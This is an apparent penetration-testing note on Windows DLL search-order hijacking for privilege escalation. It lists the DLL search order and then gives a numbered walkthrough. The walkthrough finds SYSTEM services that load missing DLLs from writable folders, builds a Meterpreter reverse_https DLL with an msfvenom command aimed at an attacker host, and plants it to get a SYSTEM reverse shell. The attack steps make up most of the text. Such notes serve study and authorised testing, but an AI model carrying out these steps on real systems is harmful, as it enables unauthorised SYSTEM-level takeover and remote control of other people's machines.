 # DLL Search Order
1) Directory from which application launched
2) C:\Windows\System32
3) C:\Windows\System
4) C:\Windows
5) Current directory
6) Directories specified in the environment %PATH% variable.

# Steps To Execute
1) Run [Process Explorer](https://docs.microsoft.com/en-us/sysinternals/downloads/process-explorer) as administrator.
2) To the Process Image grid, add the User Name column.
3) Look for processes running as NT AUTHORITY\SYSTEM.
4) Double-click on process.
5) Make note of image path and the service, listed under Services tab.
6) Run [Process Monitor](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon) as administrator.
7) Create a filter for a specific EXE to investigate (Process Name is [Process.exe] identified in Process Explorer).
8) Find service in Windows Services.
9) Confirm the service runs as Local System, under Log On.
10) Stop and start service, while watching it in Process Monitor.
11) Stop capture.
12) Create a filter for NAME NOT FOUND, for the Result column.
13) Look for instances that the application is looking for a DLL in a directory for which we have write permissions.
14) Create reverse_https, Meterpreter payload, with msfvenom. ```msfvenom -p windows/meterpreter/reverse_https LHOST=[Attack Host] LPORT=443 -f dll -o [DLL found in previous step]```
15) Copy payload (modified DLL) into a writable directory.
16) Restart service.
17) In Process Explorer, the selected service spawned a rundll32.exe process, running as SYSTEM, and is the process establishing the reverse shell.
18) Double-click on rundll32.exe and the connection will show in the TCP/IP tab.
19) **NOTE** Metasploit has a module for this attack:  windows/local/srclient_dll_hijacking.

# References
##### [Dynamic-Link Library Search Order](https://docs.microsoft.com/en-us/windows/win32/dlls/dynamic-link-library-search-order?redirectedfrom=MSDN)
##### [Secure loading of libraries to prevent DLL preloading attacks](https://support.microsoft.com/en-us/topic/secure-loading-of-libraries-to-prevent-dll-preloading-attacks-d41303ec-0748-9211-f317-2edc819682e1)